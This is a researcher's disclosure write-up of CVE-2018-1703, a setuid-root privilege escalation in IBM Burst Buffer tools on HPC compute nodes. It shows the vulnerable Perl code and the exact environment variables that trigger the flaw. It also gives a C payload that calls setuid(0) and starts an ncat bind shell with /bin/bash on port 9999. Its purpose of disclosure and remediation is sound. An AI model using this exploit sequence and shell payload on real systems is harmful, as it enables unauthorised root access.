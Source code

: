 # CVE-2018-1703: Burst Buffer Setuid Root Escalation

## Overview

Debugging related binaries shipped with older versions of Burst Buffer software are susceptible to privilege escalation.  Burst Buffer is a type of buffer/cache that is available for the pre-staging (and post-staging) of data before and after a scientific job is placed on a compute node. Because simulations at scale are extremely fine-grained, scientific compute jobs will often wait for some time at the beginning of their code execution for data to stream into memory from fast scratch.  Burst Buffering is directed by system-level processes to pre-stage the next job's data onto compute node-local NVMe drives and reduce idle time spent on I/O at the beginning and end of compute jobs. Because this capability can be directed by system-level processes and the scheduler, it is of particular interest from an authentication and trust boundary perspective.

## Links

  - https://github.com/IBM/CAST
  - https://www-01.ibm.com/support/docview.wss?uid=ibm10734239
  - http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-1703

## Tools and Background Knowledge

  * Linux Command Line Tools
  * find (for finding setuid root binaries!)
  * PERL (yuck)

## Writeup

The Burst Buffer package shipped with several tools related to the Burst Buffer ecosystem. Some of these were used early on in Burst Buffer development to emulate the Burst Buffer `bbproxy` before it was complete so that client side command line tooling could be developed.  These tools were installed by RPMs with the setuid bit set, meaning that users on the system can run these administrative tools and take advantage of any arbitrary code execution flaws within.  Here's an example of the vulnerable perl code that calls the user defined *$bbscript*.  &setupUserEnvrionment();

```
sub phase2
{
    $BADEXITRC = $BADNONRECOVEXITRC;
    &setupUserEnvironment();
    foreach $bbscript (@STGIN)
    {
        bpost("BB: Calling user stage-in script: $bbscript");
        $rc = cmd("$bbscript");
        bpost("BB: User stage-in script exited with $rc", …);
        failureCleanAndExit() if($rc != 0);
    }
}
```

### Diagram
A user logging into the login node can launch an interactive job on compute nodes.  After sshing to a compute node, the stagein_admin command was available to be run and would run user defined code in a context that could escalate to root.

```
                    ┌─────────────────┐   ┌─────────────────────────────────────────────────────────────────┐
                    │   Login Node    │   │                          Compute Node                           │
                    │                 │   │                                     ┌─────────────┐   ┌────────┐│
┌─────────────┐     │                 │   │                  ┌─────────────┐    │ bbtools.pm  │   │  User  ││
│   User @    │   ┌─┴─────┐  ┌──────┐ │ ┌─┴─────┐  ┌──────┐  │stagein_admin│  ┌─┴─────────────┴─┐ │Defined ││
│ Institution ├───▶ sshd  ├──▶ bash ├─┼─▶ sshd  ├──▶ bash ├──▶ (rwsr-xr-x) ├──▶stagein_admin.pl ├─▶  Code  ││
└─────────────┘   └─┬─────┘  └──────┘ │ └─┬─────┘  └──────┘  └─────────────┘  └─────────────────┘ └────────┘│
                    └─────────────────┘   └─────────────────────────────────────────────────────────────────┘
```

### Exploring PERL

One of the things that was nice about this vulnerability is that the perl source code that 'did the stuff' was actually readable (in the rwx sense). In the English sense, it did take a while to put together the appropriate environment variables necessary to hit a vulnerable code path.  Many references to isSetuid (such as this one:)

```
BEGIN
{   
    print "argv[0] = $ARGV[0]\n";
    if(isSetuid())
    {   
        unshift(@INC, '/opt/ibm/bb/scripts/');
    }
```

sprinkle the Perl scripts.  This seems to indicate that awareness of the *setuid==bad* concept, but as a codebase grows during development, it can be very difficult to cross all of the I-s and dot all of the T-s.
### Finding the right combo

After quite a bit of trial and error, tracing perl code and the way that enviornment variables were parsed, this was the magic sequence:

```
$ export LSF_STAGE_STORAGE_MINSIZE=1
$ export LSF_STAGE_JOBID=1337
$ export LSF_STAGE_USER='root'
$ export LSB_HOSTS='h41n07 h41n07'
$ export LSF_STAGE_USER_STAGE_IN=/path/to/shell/executable
```

`LSF_STAGE_STORAGE_MINSIZE` and `LSF_STAGE_JOBID` don't really matter in our case, but if are unset, will result in the perl code bombing. `LSF_STAGE_USER` is important to set as root, although perhaps other users could have been specified and code run as them.  That was not explored. `LSB_HOSTS` must be set to the active set of compute nodes the current job is running under.  Finally, `LSF_STAGE_USER_STAGE_IN` is the script/binary that the burst buffer daemon will use to stage data onto the compute node ahead of the job.  Passing in a binary that opens a listening socket, for instance, is something that we could explore...

### Building the payload

Initially, I used `touch` to demonstrate that my code was running in a privileged context, but the ultimate goal is persistence and a durable shell.  As such, I decided to build netcat for the ppc64le system, start a netcat listener on port 9999 that spawns shell when it's connected to, and then connect to it after running `stagein_admin`.

```
#include <unistd.h>
#include <stdlib.h>

int main( int argc, char **argv ) {

  setuid(0)
  execl("/gpfs/alpinetds/stf002/scratch/uua/ncat", "/gpfs/alpinetds/stf002/scratch/uua/ncat", "-l", "9999", "-e", "/bin/bash", (char *)NULL);

  return 0;

}
```


### Putting it all together

By configuring our environment *just right*, we can provide an executable to the `stagein_admin` command, which will happily run.  Because it does not take enough care to drop privs, we can use setuid(0) to regain them and own the system.

![Recorded exploitation of this Burst Buffer vulnerability](https://github.com/rmadamson/rmadamson/blob/main/writeups/gifs/setuid.gif)


### The fix

The fix for this is to not package setuid binaries when they aren't strictly necessary.  Information about affected versions can be found by following the links at the beginning of this writeup.

## Acknowledgements

This research used resources of the Oak Ridge Leadership Computing Facility at the Oak Ridge National Laboratory, which is supported by the Office of Science of the U.S. Department of Energy under Contract No. DE-AC05-00OR22725.
